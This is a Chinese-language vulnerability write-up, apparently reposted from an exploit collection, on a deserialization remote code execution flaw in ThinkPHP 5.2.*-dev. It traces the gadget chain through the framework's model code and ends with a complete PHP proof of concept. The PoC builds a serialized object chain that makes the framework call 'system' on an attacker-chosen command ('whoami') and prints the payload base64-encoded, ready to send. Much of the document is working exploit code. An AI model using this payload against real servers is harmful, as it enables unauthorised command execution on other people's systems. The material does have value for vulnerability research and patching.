


# Thinkphp 5.2.*-dev 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Thinkphp/13.html](http://book.iwonder.run/0day/Thinkphp/13.html)

## 一、漏洞简介

所有 Thinkphp 版本下载链接

[https://packagist.org/packages/topthink/framework](https://packagist.org/packages/topthink/framework)

## 二、漏洞影响

## 三、复现过程

### 环境搭建

```
composer create-project topthink/think=5.2.*-dev v5.2 
```

### poc 演示截图


### 调用链



### 单步调试

可以看到前面的链跟 tp5.1.x 的一样，这里不在列举，直接进去 toArray 函数，可以看到$data 可控

```
public function toArray(): array
{
。。。
$data = array_merge($this->data, $this->relation);

foreach ($data as $key => $val) {
   if ($val instanceof Model || $val instanceof ModelCollection) {
     // 关联模型对象
     if (isset($this->visible[$key])) {
      $val->visible($this->visible[$key]);
     } elseif (isset($this->hidden[$key])) {
      $val->hidden($this->hidden[$key]);
     }
     // 关联模型对象
     $item[$key] = $val->toArray();
   } elseif (isset($this->visible[$key])) {
     $item[$key] = $this->getAttr($key);
   } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
     $item[$key] = $this->getAttr($key);
   }
}
。。。 
```

```
public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = true;
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
} 
```

```
public function getData(string $name = null)
   {
       if (is_null($name)) {
           return $this->data;
       }

       $fieldName = $this->getRealFieldName($name);

       if (array_key_exists($fieldName, $this->data)) {
           return $this->data[$fieldName];
           ...
       }
   } 
```

```
protected function getRealFieldName(string $name): string
{
    return $this->strict ? $name : App::parseName($name);  //this->strict 默认为 true
} 
```

可以看到 getAttr 函数中的$value 可控，那么导致$this->getValue($name, $value, $relation);这里的三个参数都可控，跟进$this->getValue($name, $value, $relation);

```
protected function getValue(string $name, $value, bool $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . App::parseName($name, 1) . 'Attr';

    if (isset($this->withAttr[$fieldName])) {
       if ($relation) {
         $value = $this->getRelationValue($name);
       }

       $closure = $this->withAttr[$fieldName];
       $value   = $closure($value, $this->data); 
```

这里$fieldName、$this->withAttr，导致$closure 也可控，最终直接产生 RCE。如下图



补充：

```
<?php

$a = array();
system('whoami',$a); 
```


### poc v5.2.*-dev

```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}
namespace{
    $Conver = new think\model\Pivot("whoami");
    $payload = new think\process\pipes\Windows($Conver);
    echo base64_encode(serialize($payload));
}
?> 
```

## 四、参考链接

> [https://www.t00ls.net/thread-54324-1-1.html](https://www.t00ls.net/thread-54324-1-1.html)

